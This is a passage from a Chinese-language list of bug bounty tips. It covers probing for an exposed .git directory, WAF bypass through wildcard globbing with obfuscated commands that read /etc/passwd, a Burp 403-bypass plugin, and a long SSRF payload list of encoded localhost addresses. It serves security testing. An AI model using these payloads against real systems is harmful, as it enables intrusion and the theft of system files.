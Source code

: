 56、如果访问`/.git`目录返回403，别忘了进一步访问下面的目录，比如：`/.git/config`

57、使用通配符绕过WAF，如果WAF拦截了RCE，LFI的payload，我们可以尝试使用通配符来绕过，比如：

```
/usr/bin/cat /etc/passwd ==  /???/???/c?t$IFS/?t?/p?s?wd
? = 任意的单个字符
* = 任意字符串，也包含置空的字符串
通配符在常见的系统中都适用，另外我们可以使用$IFS特殊变量取代空白
$IFS = 内部字段分隔符 = [space], [tab] 或者 [newline]

cat /etc$u/p*s*wd$u

小例子，执行/bin/cat /etc/passwd的写法：
/*/?at$IFS/???/???swd
/****/?at$IFS/???/*swd
/****/?at$IFS/???/*******swd

原文地址：https://www.infosecmatter.com/bug-bounty-tips-9-nov-16/#8_waf_bypass_using_globbing
```

58、绕过403的一个BurpSuit插件，地址：

```
https://github.com/sting8k/BurpSuite_403Bypasser
```

59、SSRF bypass列表，基于localhost（127.0.0.1），如下：

```
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/
http://0xd8.0x3a.0xd6.0xe3
http://0xd83ad6e3
http://0xd8.0x3ad6e3
http://0xd8.0x3a.0xd6e3
http://0330.072.0326.0343
http://000330.0000072.0000326.00000343
http://033016553343
http://3627734755
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
http://216.0x3a.00000000326.0xe3

原文链接：https://www.infosecmatter.com/bug-bounty-tips-10-dec-24/#13_ssrf_bypass_list_for_localhost_127001
```
